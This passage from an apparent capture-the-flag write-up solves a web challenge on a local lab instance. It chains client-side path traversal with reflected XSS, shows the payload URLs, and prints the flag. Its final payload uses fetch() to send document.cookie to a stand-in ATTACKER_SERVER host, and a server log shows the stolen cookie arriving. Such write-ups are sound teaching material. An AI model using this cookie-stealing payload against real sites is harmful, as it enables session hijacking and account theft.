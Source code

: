 
Our input is reflected! Now it's time to try a different URL 😈

We want to add an XSS payload to the `name` parameter without interfering with the CSPT path. The best way to do this is by adding a query parameter, e.g., `/contact?xss=<img src=x onerror=alert(1)/>`, _but_ we need to URL-encode the `?` (or `#`) to ensure it's not processed by the `/view` endpoint.

`http://127.0.0.1/view?note=0c7cb26e-9095-48dc-b984-8cc9fcc76b4c&name=....//....//....//contact%3fxss=<img src=x onerror=alert(1)>`

![](./images/13.PNG)

We popped an alert! Now we'll set up an attacker server to exfiltrate the cookie and update our payload one final time 😌

{% code overflow="wrap" %}

```
http://127.0.0.1/view?note=0c7cb26e-9095-48dc-b984-8cc9fcc76b4c&name=....//....//....//contact%3fxss=<img/src/onerror=fetch('https://ATTACKER_SERVER/?'%2bdocument.cookie)>
```

{% endcode %}

Note: you do need to URL-encode the `+` to `%2b` in the fetch request.

Checking the server logs, we get a hit containing the user cookie!

{% code overflow="wrap" %}

```bash
python -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
127.0.0.1 - - [27/Aug/2024 14:49:16] "GET /?cryptocatisthebest HTTP/1.1" 200 -
```

{% endcode %}

Finally, we just send the exact same URL to admin/bot using the `/report` endpoint and receive the _real_ flag 🚩

Flag: `INTIGRITI{54f3n0735_3_w1ll_b3_53cur3_1_pr0m153}`
